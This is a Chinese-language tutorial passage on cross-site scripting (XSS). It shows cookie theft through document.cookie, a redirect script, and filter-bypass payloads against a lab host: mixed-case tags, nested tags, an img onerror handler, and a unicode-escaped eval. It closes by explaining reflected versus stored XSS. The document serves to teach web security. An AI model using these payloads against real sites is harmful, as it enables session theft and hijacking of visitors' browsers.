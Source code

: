 *   **窃取网页浏览中的cookie值**

    ```js
    // 使用该api获取cookie
    document.cookie
    ```

*   **劫持流量实现恶意跳转**

    ```js
    <script>window.location.href="http://www.baidu.com";</script>
    ```

**如何绕过XSS检查**

*   **大小写绕过**

    >   http://192.168.1.102/xss/example2.php?name=<sCript>alert("hey!")</scRipt>

*   **利用过滤后返回语句再次构成攻击语句来绕过**

    删一个 script 标签，还剩一个 script 标签

    >   http://192.168.1.102/xss/example3.php?name=<sCri<script>pt>alert("hey!")</scRi</script>pt>

*   **利用其他标签的事件来插入代码**

    >   http://192.168.1.102/xss/example4.php?name=\<img
    >   src='w.123' onerror='alert("hey!")'>

*   **用eval执行编码后的代码**

    例如alert(1)编码过后就是

    ```text
    \u0061\u006c\u0065\u0072\u0074(1)
    ```

    所以构建出来的攻击语句如下：

    >   [http://192.168.1.102/xss/example5.php?name=eval(\u0061\u006c\u0065\u0072\u0074(1))](https://link.zhihu.com/?target=http%3A//192.168.1.102/xss/example5.php%3Fname%3D%3Cscript%3Eeval(/u0061/u006c/u0065/u0072/u0074(1))%3C/script%3E)

**XSS攻击大致上分为两类：**

>   一类是反射型XSS，又称非持久型XSS，
>   一类是储存型XSS，也就是持久型XSS。

**什么是反射型XSS**

​		其实，我们上面讲XSS的利用手段时所举的例子都是非持久型XSS。

​		也就是攻击相对于访问者而言是一次性的，具体表现在我们把我们的恶意脚本通过url的方式传递给了服务器，而服务器则只是不加处理的把脚本“反射”回访问者的浏览器而使访问者的浏览器执行相应的脚本。

​		也就是说想要触发漏洞，需要访问特定的链接才能够实现。

**什么是储存型XSS**

​		它与反射型XSS最大的不同就是服务器再接收到我们的恶意脚本时会将其做一些处理。

​		例如储存到数据库中，然后当我们再次访问相同页面时，将恶意脚本从数据库中取出并返回给浏览器执行。这就意味着只要访问了这个页面的访客，都有可能会执行这段恶意脚本，因此储存型XSS的危害会更大。

